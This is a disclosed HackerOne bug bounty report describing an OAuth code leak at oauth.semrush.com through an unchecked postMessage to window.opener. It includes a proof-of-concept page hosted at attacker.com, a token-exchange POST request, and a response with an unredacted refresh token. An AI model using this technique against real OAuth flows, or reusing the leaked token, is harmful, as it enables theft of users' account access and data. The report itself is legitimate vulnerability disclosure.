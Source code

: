 # [oauth token leak] at oauth.semrush.com

## Report Details
- **Report ID**: 314814
- **URL**: https://hackerone.com/reports/314814
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-02-10T19:34:59.147Z
- **Disclosed**: 2018-04-17T11:58:56.526Z

## Reporter
- **Username**: nikitastupin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semrush

## Vulnerability Information
Domain, site, application
---
oauth.semrush.com

Steps to reproduce
---
1) Create following html at attacker.com/postmessage.html

```
<script>
  function listener(event) {
    alert(JSON.stringify(event.data));
  }

  var dest = window.open("https://oauth.semrush.com/oauth2/authorize?response_type=code&scope=user.info,projects.info,siteaudit.info&client_id=seoquake&redirect_uri=https%3A%2F%2Foauth.semrush.com%2Foauth2%2Fsuccess&state=636e7bae-22ed-407d-8d62-1d49b49ec962");
  
  window.addEventListener("message", listener);
</script>
```
2) Go to attacker.com/postmessage.html (make sure you are logged in at www.semrush.com)
3) Click "Approve"
4) Go to tab with attacker.com, you will see alert with `code`
5) Make POST request with obtained `code`
```
POST /oauth2/access_token HTTP/1.1
Host: oauth.semrush.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 205
DNT: 1
Connection: close

client_id=seoquake&client_secret=██████████&grant_type=authorization_code&code=[COPY OBTAINED CODE HERE]&redirect_uri=https%3A%2F%2Foauth.semrush.com%2Foauth2%2Fsuccess
```
6) Receive response with `access token` and `refresh token`
```
HTTP/1.1 200 OK
Server: nginx
Content-Type: application/json
Connection: close
Cache-Control: no-cache
Date: Sat, 10 Feb 2018 19:06:38 GMT
Set-Cookie: session=████; expires=Sat, 10-Feb-2018 21:06:38 GMT; Max-Age=7200; path=/; httponly

{"access_token":"███████","token_type":"Bearer","expires_in":604800,"refresh_token":"kiAMXIrTVjfvD131wraCjTLN4CzS7ABhqUGvweYC"}
```

Actual results
---
`access token` and `refresh token` of victim:
```
{"access_token":"██████████","token_type":"Bearer","expires_in":604800,"refresh_token":"kiAMXIrTVjfvD131wraCjTLN4CzS7ABhqUGvweYC"}
```

PoC, exploit code, screenshots, video, references, additional resources
---
This vulnerability is possible due to lack of `window.opener` origin check at `https://oauth.semrush.com/oauth2/success`:
```
<script>
	if (window.opener && typeof opener.postMessage === 'function') {
		opener.postMessage({ type: 'semrush:oauth:success', url: location.href }, '*');
	}
</script>
```
Meaning any site that opens `https://oauth.semrush.com/oauth2/success` may read `code` in `location.href`.

Attack vector based on fact that user sees SEOquake authorization page F262215 thinking that it's just official application permission request and with high probability clicks "Approve".

Still working at vector without this small user interaction.

## Impact

OAuth tokens leakage. This leads to user sensitive information leakage.
**Note**: it's not necessary to install SEOquake plugin!

P.S.
---
I'm aware of user info leakage, project info leakage and Site Audit info leakage but maybe there is wider scope of possible sensitive info leak.

I've reported vulnerability as soon as possible therefore no time to deeper scope research.

## Attachments
- approve.png
